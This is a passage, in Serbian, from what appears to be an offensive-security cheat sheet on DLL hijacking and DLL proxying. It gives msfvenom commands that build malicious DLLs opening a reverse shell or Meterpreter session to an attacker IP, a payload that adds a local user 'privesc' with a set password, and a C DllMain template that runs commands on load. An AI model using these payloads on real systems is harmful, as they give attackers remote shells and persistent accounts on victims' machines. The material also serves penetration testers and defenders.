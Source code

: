### **Dll Proksifikacija**

U osnovi, **Dll proxy** je Dll sposoban da **izvrši vaš zlonamerni kod prilikom učitavanja**, ali takođe da **izloži** i **radi** kao **očekivano** prenoseći sve pozive pravoj biblioteci.

Pomoću alata [**DLLirant**](https://github.com/redteamsocietegenerale/DLLirant) ili [**Spartacus**](https://github.com/Accenture/Spartacus) možete zapravo **označiti izvršnu datoteku i izabrati biblioteku** koju želite proksifikovati i **generisati proksifikovani dll** ili **označiti Dll** i **generisati proksifikovani dll**.

### **Meterpreter**

**Get rev shell (x64):**

```bash
msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**Dobijanje meterpretera (x86):**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.169.0.100 LPORT=4444 -f dll -o msf.dll
```

**Napravite korisnika (x86 Nisam video x64 verziju):**

```
msfvenom -p windows/adduser USER=privesc PASS=Attacker@123 -f dll -o msf.dll
```

### Tvoj sopstveni

Imajte na umu da u nekoliko slučajeva Dll koji kompajlirate mora **izvoziti nekoliko funkcija** koje će biti učitane od strane procesa žrtve, ako ove funkcije ne postoje, **binarni fajl neće moći da ih učita** i **eksploatacija će neuspeti**.

```c
// Tested in Win10
// i686-w64-mingw32-g++ dll.c -lws2_32 -o srrstr.dll -shared
#include <windows.h>
BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved){
switch(dwReason){
case DLL_PROCESS_ATTACH:
system("whoami > C:\\users\\username\\whoami.txt");
WinExec("calc.exe", 0); //This doesn't accept redirections like system
break;
case DLL_PROCESS_DETACH:
break;
case DLL_THREAD_ATTACH:
break;
case DLL_THREAD_DETACH:
break;
}
return TRUE;
}
```
